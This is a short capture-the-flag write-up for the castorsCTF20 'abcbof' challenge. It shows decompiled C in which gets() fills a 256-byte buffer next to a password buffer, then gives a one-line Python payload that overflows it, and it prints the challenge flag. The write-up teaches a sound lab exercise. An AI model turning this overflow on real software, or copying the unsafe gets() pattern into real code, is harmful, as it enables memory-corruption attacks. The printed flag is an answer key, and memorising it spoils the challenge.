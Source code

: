 ```yaml
---
type: "post"
title: "abcbof"
author: "tozkoparan (Ahmed Selim Üzüm)"
tags: ["writeup", "pwn", "castorsCTF20"]
---
```


The executable file wants a password from us. So let's see if it uses `strcmp`
for comparing it. If that, and the text isn't encyripted we should able to see the
password. So let's run `ltrace ./abcbof` and give `aaaa` for password. Here is the
password! But when we tried it, it didn't work.

We can use `ghidra` for seeing why it didn't work.

```c
undefined8 main(void)

{
  int iVar1;
  char local_118 [256];
  char local_18 [16];

  printf("Hello everyone, say your name: ");
  gets(local_118);
  iVar1 = strcmp("CyberCastors",local_18);
  if (iVar1 == 0) {
    get_flag();
  }
  puts("You lose!");
  return 0;
}
```

We can now see it didn't work because our input is inside `local_118` and checked
password is inside `local_18`. But because gets is vulnerable, if we first print
256 times A and then the correct password we can get the flag!

```shell
 python -c "print('A'*256 + 'CyberCastors')" | ./abcbof
 ```

 **Flag:** `castorsCTF{b0f_4r3_n0t_th4t_h4rd_or_4r3_th3y?}`
